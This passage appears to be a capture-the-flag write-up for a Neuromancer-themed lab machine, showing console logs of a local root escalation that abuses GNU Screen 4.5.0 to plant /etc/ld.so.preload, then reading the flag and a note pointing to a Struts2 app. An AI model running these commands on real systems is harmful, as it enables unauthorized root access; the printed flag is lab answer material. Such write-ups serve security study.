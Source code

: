 We execute the following commands and we get root.

```console
www-data@straylight:/etc$ cd /etc
cd /etc
www-data@straylight:/etc$ umask 000
umask 000
www-data@straylight:/etc$ /bin/screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
< -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
www-data@straylight:/etc$ /bin/screen-4.5.0 -ls
/bin/screen-4.5.0 -ls
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

www-data@straylight:/etc$ /tmp/rootshell
/tmp/rootshell
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

We read the flag.

```console
# python -c "import os; os.setuid(0); os.setgid(0); os.system('/bin/bash')"
python -c "import os; os.setuid(0); os.setgid(0); os.system('/bin/bash')"
root@straylight:/etc# cd /root
cd /root
root@straylight:/root# ls
ls
flag.txt  note.txt  scripts
root@straylight:/root# cat flag.txt
cat flag.txt
5ed185fd75a8d6a7056c96a436c6d8aa
```

We found a note containing a message about a Tomcat web service and a directory.

```console
root@straylight:/root# cat note*
cat note*
Devs,

Lady 3Jane has asked us to create a custom java app on Neuromancer's primary server to help her interact w/ the AI via a web-based GUI.

The engineering team couldn't strss enough how risky that is, opening up a Super AI to remote access on the Freeside network. It is within out internal admin network, but still, it should be off the network completely. For the sake of humanity, user access should only be allowed via the physical console...who knows what this thing can do.

Anyways, we've deployed the war file on tomcat as ordered - located here:

/struts2_2.3.15.1-showcase

It's ready for the devs to customize to her liking...I'm stating the obvious, but make sure to secure this thing.

Regards,

Bob Laugh
Turing Systems Engineer II
Freeside//Straylight//Ops5
```

